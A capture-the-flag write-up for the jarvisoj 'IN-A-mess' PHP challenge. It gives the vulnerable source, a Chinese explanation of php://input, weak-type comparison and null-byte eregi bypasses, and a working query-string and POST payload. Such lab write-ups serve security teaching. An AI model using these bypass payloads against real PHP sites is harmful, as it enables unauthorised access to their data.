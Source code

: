 # Challenge
```php
<?php
error_reporting(0);
echo "<!--index.php.txt-->";
if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

# Solution
php弱类型绕过。当`$a`为php://input，`$data`可以通过php://input来接受post数据。

`$id`传一个字符进去，满足`!$_GET['id']`为假。与数字进行比较时会被转换为0，满足`$id==0`。

对`$b`，要求长度大于5，其次要求满足`eregi`的要求和首字母不为4。可以设置`$b`为`%00111111`，这样，substr（）会发生截断，在匹配时时进行eregi("111","1114")满足，同时%00对strlen不会发生截断。

payload:
```
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

# Refference 
+ [jarvisoj : IN-A-mess](http://web.jarvisoj.com:32780/index.php?id=1)
+ [chybeta : IN-A-mess](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#IN-A-mess)
